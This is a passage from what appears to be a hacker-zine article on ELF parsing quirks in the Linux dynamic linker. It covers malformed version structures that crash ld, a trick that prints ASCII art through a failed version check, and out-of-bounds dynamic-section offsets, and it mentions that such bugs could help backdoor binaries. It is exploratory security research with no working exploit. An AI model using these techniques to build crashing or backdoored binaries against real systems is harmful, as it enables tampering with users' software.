virtual address. ld will then do a strcmp to check it against some other known values.
During the strcmp both RDI and RBP are pointing to the memory location. You can trigger a
DOS condition by pointing this to an address that doesn't exist.
The Vernaux structs are parsed in a similar way. Vernaux.vna_name can point to an address
that's loaded in the process image. It s subject to similar checks and can trigger DOS
conditions in strcmp or other functions called by _dl_check_map_versions. If the name
can't be resolved, then ld will report that and the program will exit.
To play around with this, I added some ASCII art to the end of my binary and then resized
the last PT_LOAD section to make sure that the rest of the binary ended up in the process
image. Then I pointed a Vernaux struct to the start of the buffer, and got it to fail the
check and print out my art. Neat!
user@computer:~$ ./myCoolBinary.elf
./myCoolBinary.elf: /lib/x86_64-linux-gnu/libc.so.6: version `
:::!~!!!!!:.
.xUHWH!! !!?M88WHX:.
LD is short for .X*#M@$!! !X!M$$$$$$WWx:.
:!!!!!!?H! :!$!$$$$$$$$$$8X:
Lotsa Damage !!~ ~:~!! :~!$!#$$$$$$$$$$8X:
:!~::!H!< ~.U$X!?R$$$$$$$$MM!
xoxo ~!~!!!!~~ .:XW$$$U!!?$$$$$$RMM!
!:~~~ .:!M"T#$$$$WX??#MRRMMM!
netspooky ~?WuxiW*` `"#$$$$8!!!!??!!!
:X- M$$$$ `"T#$T~!8$WUXU~
:%` ~#$$$m: ~!~ ?$$$$$$
:!`.- ~T$$$$8xx. .xWW- ~""##*"
..... -~~:<` ! ~?T#$$@@W@*?$$ /`
W$@@M!!! .!~~ !! .:XUW$W!~ `"~: :
#"~~`.:x%`!! !H: !WM$$$$Ti.: .!WUn+!`
:::~:!!`:X~ .: ?H.!u "$$$B$$$!W:U!T$$M~
.~~ :X@!.-~ ?@WTWo("*$$$W$TH$! `
Wi.~!X$?!-~ : ?$$$B$Wu("**$RM!
$R@i.~~ ! : ~$$$$$B$$en:``
?MXT@Wx.~ : ~"##*$$$$M~
' not found (required by ./myCoolBinary.elf)
You can also take most offsets within the dynamic section, such as the entry that points
to .gnu.version_r, and point it to an offset way beyond the bounds of the file and into
the memory area where ld is. Silly experiments included tricking ld into parsing the vDSO.
These offsets are signed too, so you can move backwards and parse random parts of the ELF
header too.
There is potential to leverage these kinds of bugs for things like backdooring binaries,
such as tricking ld with a bogus offset in the rela.dyn section and setting up an
arbitrary address in the plt section to call whatever you want from within the newly
set up process. Will maybe to cover some of those techniques in a future paper! Check out
elfmaster's "Preloading the linker for fun and profit" in this issue for more linker fun!
[ 5.0 .fini ]─────────────────────────────────────────────────────────────────────────//──
This is just a few random bugs I wanted to talk about and didn't know where else to put
them. It's a lot easier to break instead of building, so I wanted to share a few things
that might make things better in some way. File parsers are especially hard, and there
will always be edge cases. The more we work to make our tools better, the more we will
understand what's actually going on. Until then, happy hunting!
greetz 2: dnz, rqu, grenlith, hermit, iximeow, xcellerator, chompie1337, grugq, sblip,
s01den, TMZ, retr0id, hexadecim8, gilda, sshell, ilya, bfu, ulexec, RiS, elfmaster,
tchq, tt, and the whole tmp.0ut crew.